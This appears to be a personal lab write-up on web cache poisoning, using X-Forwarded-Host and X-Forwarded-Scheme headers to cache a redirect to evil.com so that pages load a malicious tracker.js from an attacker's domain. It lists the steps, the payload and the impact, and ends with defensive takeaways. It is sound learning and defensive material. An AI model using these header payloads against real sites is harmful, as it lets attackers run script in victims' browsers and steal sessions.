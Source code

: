 # Note(Datetime, Name) : 2025-04-25 Web Cache Poisoning with multiple headers

### Metodelogy
 1. Investigate the system to retrieve a list of features
 2. Discribe the feature and explain how it works
 3. List possible vulnerabilities and group by feature
 4. Proof of concept for possible vulnerabilities
 5. What is the impact of the vulnerabilities after the proof of concept ? 


# ==========================================================================================================

>

## feature:      
1. / ->  got response -> indicated page is cache
    ``` 
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=aRRl8oPADEsf9eyGaK69gY43XSY30squ; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 10914

    ```
### steps taken:
1. X-Forwarded-Host: evil.com -> normal response
2. X-Forwarded-Scheme: http -> server redirected to the https version of the website
3. use this payload -> page is redirected to the evil.com and website is cached by server
``` 
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: http
```

## vulnerabilities : 
1. web cache poisioning by use header 
``` 
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: http

```

## Proof of concept:
1. send payload to / -> and got redirected to evil.com ->  cached
``` 
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: http

```
2. Locate the file /resource/tracker.js and confirm that it is cacheable.
3. Apply this payload and send a request to <targetdomain>/resource/tracker.js. Make sure the tracker.js file is cached by the server:
``` 
X-Forwarded-Host: <yourdomain>
X-Forwarded-Scheme: http
```
4. after the response is cached , any page that includes tracker.js will fetch it from <yourdomain>/resource/tracker.js due to the redirect. 


## impact
1.An attacker can poison the cache and cause browsers to load a malicious tracker.js file.

2.This can lead to the execution of arbitrary JavaScript on victim pages, resulting in:

    - Stolen credentials

    - Session hijacking

    - Full client-side takeover (depending on script capabilities)
## takeaways
1.Always validate and sanitize any input headers, especially X-Forwarded-*.

2.Ensure cache keys include all relevant headers to prevent cache poisoning.

3.Avoid caching responses that include user-controllable input (even in headers).


